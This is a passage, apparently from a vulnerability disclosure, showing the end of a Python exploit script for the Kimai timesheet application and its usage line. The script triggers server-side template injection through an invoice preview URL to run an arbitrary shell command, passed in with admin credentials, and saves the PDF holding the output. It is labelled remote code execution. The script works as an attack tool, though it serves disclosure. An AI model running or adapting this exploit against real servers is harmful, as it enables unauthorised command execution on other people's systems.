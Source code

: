     # export timesheets so they appear in exported invoices
    export = session.post(f"{BASE_URL}/timesheet/export/", data=postData).text
    if "PDF-1.4" in export:
        csrf, _, _, _, _ = get_csrf("/invoice/", session)
        # get preview token to construct the preview URL to trigger SSTI
        csrf, project_id, preview_id, template_ids, activity_customer_list = get_csrf(f"/invoice/?searchTerm=&daterange=&exported=1&invoiceDate=1%2F1%2F1980&performSearch=performSearch&_token={csrf}&template={temp_id}", session)
        for template_id in template_ids:
            rendererURL = f"{BASE_URL}/invoice/preview/{customer_id}/{preview_id}?searchTerm=&daterange=&exported=1&template={temp_id}&invoiceDate=&_token={csrf}&customers[]={customer_id}"
            # trigger the payload by visiting the renderer URL 
            rce = session.get(rendererURL)
            
            if "PDF-1.4" in rce.text:
                print(rendererURL)
                print("[+] successfully executed payload")
                # save the pdf locally since rendered URL will expire as soon as we end the session
                pdf = f"{generate()}.pdf"
                with open(pdf,'wb') as pdfFile:
                    pdfFile.write(rce.content)
                    pdfFile.flush()
                    pdfFile.close()
                    print(f"[+] Saved results with name: {pdf}")
                exit(1)

print("[-] Failed to execute payload, try to trigger manually..")
```{% endraw %}

which can be executed as such:
```bash
$ python3 spl0it.py http://localhost:8001/en admin password "ls -la"
```

this will download the rendered file which will contain the results of the RCE:

![kimaiRCE](https://user-images.githubusercontent.com/32583633/271780813-dd62020e-8ac8-4902-bc70-5503a9362e40.png)


# Impact

Remote Code Execution


